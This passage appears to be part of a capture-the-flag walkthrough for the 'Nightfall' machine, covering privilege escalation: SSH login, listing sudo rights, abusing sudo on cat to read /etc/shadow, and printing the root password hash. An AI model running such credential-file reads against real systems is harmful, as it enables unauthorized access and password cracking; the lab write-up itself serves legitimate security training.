


5. Privilege Escalation
a) From your Kali Machine try to connect as “nightfall” via SSH.
$
ssh
nightfall@192.168.12.32
Output:

b) Show the “nightfall” privileges as sudoer.
$
sudo
-l
Output:
We see that it has sudo right for “cat” program which means we can read higher privilege files such as the “etc/shadow”.
c) Read “etc/shadow” file.
$
sudo
-u root
cat
/
etc
/
shadow
Output:

We got the “root” hash.
root:
$6$JNHsN5GY.jc9CiTg$MjYL9NyNc4GcYS2zNO6PzQNHY2BE/YODBUuqsrpIlpS9LK3xQ6coZs6lonzURBJUDjCRegMHSF5JwCMG1az8k.
:18134:0:99999:7:::
Index